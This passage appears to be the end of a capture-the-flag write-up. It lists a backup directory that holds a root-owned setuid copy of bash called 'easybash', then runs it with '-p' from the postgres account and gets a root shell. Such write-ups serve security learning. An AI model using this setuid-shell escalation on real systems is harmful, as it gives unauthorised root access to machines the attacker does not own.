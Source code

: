 After waiting a bit, we take a look inside `/opt/backups/current`.

```bash
postgres@slonik:/opt/backups/current$ ls -lah
ls -lah
total 1.6M
drwxr-xr-x 19 root root 4.0K Apr 18 18:48 .
drwxr-xr-x  3 root root 4.0K Oct 23  2023 ..
-rw-------  1 root root    3 Apr 18 18:48 PG_VERSION
-rw-------  1 root root  227 Apr 18 18:48 backup_label
-rw-------  1 root root 178K Apr 18 18:48 backup_manifest
drwx------  6 root root 4.0K Apr 18 18:48 base
-rwsr-xr-x  1 root root 1.4M Apr 18 18:48 easybash
drwx------  2 root root 4.0K Apr 18 18:48 global
drwx------  2 root root 4.0K Apr 18 18:48 pg_commit_ts
drwx------  2 root root 4.0K Apr 18 18:48 pg_dynshmem
drwx------  4 root root 4.0K Apr 18 18:48 pg_logical
drwx------  4 root root 4.0K Apr 18 18:48 pg_multixact
drwx------  2 root root 4.0K Apr 18 18:48 pg_notify
drwx------  2 root root 4.0K Apr 18 18:48 pg_replslot
drwx------  2 root root 4.0K Apr 18 18:48 pg_serial
drwx------  2 root root 4.0K Apr 18 18:48 pg_snapshots
drwx------  2 root root 4.0K Apr 18 18:48 pg_stat
drwx------  2 root root 4.0K Apr 18 18:48 pg_stat_tmp
drwx------  2 root root 4.0K Apr 18 18:48 pg_subtrans
drwx------  2 root root 4.0K Apr 18 18:48 pg_tblspc
drwx------  2 root root 4.0K Apr 18 18:48 pg_twophase
drwx------  3 root root 4.0K Apr 18 18:48 pg_wal
drwx------  2 root root 4.0K Apr 18 18:48 pg_xact
-rw-------  1 root root   88 Apr 18 18:48 postgresql.auto.conf
postgres@slonik:/opt/backups/current$ ./easybash -p
./easybash -p
easybash-5.1# whoami
whoami
root
```

Thats it!



